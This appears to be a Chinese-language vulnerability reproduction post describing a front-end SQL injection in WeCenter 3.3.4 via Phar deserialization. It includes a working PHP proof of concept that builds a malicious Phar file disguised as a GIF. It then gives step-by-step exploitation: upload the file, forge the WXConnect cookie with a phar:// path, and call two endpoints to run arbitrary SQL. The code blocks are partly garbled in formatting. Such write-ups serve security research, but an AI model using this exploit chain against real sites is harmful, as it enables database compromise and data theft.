





# WeCenter 3.3.4 前台sql注入

> 原文：[https://www.zhihuifly.com/t/topic/3235](https://www.zhihuifly.com/t/topic/3235)

# WeCenter 3.3.4 前台sql注入

## 一、漏洞简介

## 二、漏洞影响

WeCenter 3.3.4

## 三、复现过程

### 任意sql语句执行

**system/aws_model.inc.php:__destruct()** 方法中存在任意 **SQL** 语句执行。



### poc

```
<?php
class AWS_MODEL
{
    private $_shutdown_query = array();

```
public function __construct($_shutdown_query)
{
    $this-&gt;_shutdown_query = $_shutdown_query;
} 
```

} `$sql = array(‘select updatexml(1,concat(0x3a,md5(233),0x3a),1)’);

$evilobj = new AWS_MODEL($sql);

// phar.readonly无法通过该语句进行设置: init_set(“phar.readonly”,0);

$filename = ‘poc.phar’;// 后缀必须为phar，否则程序无法运行

file_exists($filename) ? unlink($filename) : null;

$phar=new Phar($filename);

$phar->startBuffering();

$phar->setStub(“GIF89a<?php __HALT_COMPILER(); ?>”);

$phar->setMetadata($evilobj);

$phar->addFromString(“foo.txt”,“bar”);

$phar->stopBuffering();

?>` 
```

### 利用

首先注册账号，并利用上面的poc生成Phar文件，并将运行后将生成的`shell.gif`通过编辑器的上传功能上传到服务器上。



记录下上传后的目录



#### 生成并设置`COOKIE`中的`WXConnect`值

```
<?php
    $arr = array();
    $arr['access_token'] = array('openid' => '1');
    $arr['access_user'] = array();
    $arr['access_user']['openid'] = 1;
    $arr['access_user']['nickname'] = 'naiquan';
    $arr['access_user']['headimgurl'] = 'phar://uploads/question/20200107/a3df6f75e11120c22ba0d85519c5d442.gif';
    echo json_encode($arr);
?> 
```

将`headimgurl`的值设置成`phar`伪协议解析的恶意文件后运行，将结果放入Cookie中，前缀可参考Cookie中的其他参数。

#### 访问`app/m/weixin.php`下的`binding_action`



提示绑定微信成功后进行下一步

#### 访问`app/account/ajax.php`下的`synch_img_action`



任意SQL语句执行成功